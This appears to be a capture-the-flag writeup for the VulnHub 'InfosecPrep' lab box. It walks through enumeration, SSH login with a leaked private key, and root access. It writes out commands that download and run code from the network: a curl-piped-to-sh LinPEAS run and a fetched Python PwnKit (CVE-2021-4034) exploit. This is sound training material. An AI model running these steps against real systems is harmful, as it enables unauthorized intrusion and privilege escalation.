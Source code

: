# InfosecPrep

## Introduction

This <a href="https://www.vulnhub.com/entry/infosec-prep-oscp,508/">box</a> is meant to be an introduction to pentesting, and is designed to get players familiar with privilege escalation on outdated linux systems.

## Informations

### Key Processes
The machine is hosting a wordpress website<br>
<img src="assets/page.png"><br>
and has 3 open ports :
<img src="assets/ports.png">


## Writeup

### Enumeration

#### nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.84.11
```
<img src="assets/enum.png"><br>
Browsing to port 80 takes us to the wordpress website's homepage, which has a very important information which is the username that we're going to use later. <br>

#### Getting into the machine
I tried brute forcing directories to find files or directories that could hold some pieces of information: <br>
```
gobuster -w ./wordslist2.txt -u 192.168.84.11
```
<img src="assets/gobuster.png"><br>
After checking those files, robots.txt had the clue we were looking for : <br>
<img src="assets/robots.png"><br>
<img src="assets/secret.png"><br>
At first glance, it looked like an ssh private key, so I tried to decipher the code using <a href="https://gchq.github.io/CyberChef/">Cyberchef</a> And found that it was an ssh private key base64 encrypted. <br>
```
base64 key -d > private.txt
```
After finding the private key it was time to access the machine using the username that was given to us: 
```
ssh -i private.txt oscp@192.168.84.11
```
<br> And we're finally in!<br>
<img src="assets/machine.png"><br>
It was time then to run <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPEAS</a> and check for any vulnabilities that could give us root access to the machine.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
The system seemed to be full of vulnerabilities that could be exploited to gain control of the machine, one of them was the <a href="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034">polkit vulnerability </a>(CVE-2021-4034).

<img src="assets/info.png"><br>
Exploits written in C couldn't work since there were not any C compilers intalled on the machine, so I either had to use the binaries or get an exploit written in a language that can be compiled/interpreted on the machine and in this case python.<br>
Exploit: https://github.com/joeammond/CVE-2021-4034
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```
And voila! We've finally gained control of root and can get the flag from /root
<img src="assets/root.png">
